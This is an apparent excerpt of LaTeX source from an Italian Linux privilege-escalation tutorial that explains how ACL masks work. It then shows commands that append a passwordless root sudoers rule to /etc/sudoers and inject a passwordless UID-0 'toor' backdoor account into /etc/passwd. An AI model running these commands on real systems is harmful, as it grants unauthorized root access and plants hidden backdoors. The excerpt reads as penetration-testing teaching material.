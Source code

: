 \documentclass[12pt,a4paper]{report}
\begin{document}
	\begin{nota}
		La riga \texttt{mask::[permessi]} indica il permesso massimo effettivo consentito dalle ACL sul file per tutti gli utenti inseriti manualmente. Se la mask è configurata in modo restrittivo (es. \texttt{mask::r--}), essa taglierà e limiterà i permessi reali dell'utente, anche se la riga specifica dell'account dichiara \texttt{user:parrot:rw-}. In tal caso, il permesso effettivo di scrittura risulterà disabilitato a meno che non si riesca ad alzare preventivamente il valore della mask stessa.
	\end{nota}
	
	\subsection{L'Exploit: Abuso dei permessi ACL}
	Se la scansione con \texttt{getfacl} evidenzia che il nostro utente \texttt{parrot} ha diritti di scrittura reali (\texttt{rw-}) su un file sensibile, l'escalation si effettua a seconda del target trovato:
	
	\begin{itemize}
		\item \textbf{Scenario A: Scrittura su /etc/sudoers}
		Possiamo usare il reindirizzamento di \texttt{echo} per inserire una regola sudoers permissiva direttamente in coda al file:
		\begin{lstlisting}[language=bash]
			echo "parrot ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
		\end{lstlisting}
		Una volta fatto, basterà lanciare \texttt{sudo su -} per diventare root istantaneamente.
		
		\item \textbf{Scenario B: Scrittura su /etc/passwd}
		Se l'ACL ci fornisce l'accesso in scrittura a \texttt{/etc/passwd}, possiamo iniettare direttamente una riga per forgiare una backdoor amministrativa bypassando del tutto il file shadow (vedi la procedura nel Cheat Sheet finale):
		\begin{lstlisting}[language=bash]
			echo "toor::0:0:root:/root:/bin/bash" >> /etc/passwd
			su - toor
		\end{lstlisting}
	\end{itemize}
	
	\section{Abuso delle Linux Capabilities}
	
\end{document}
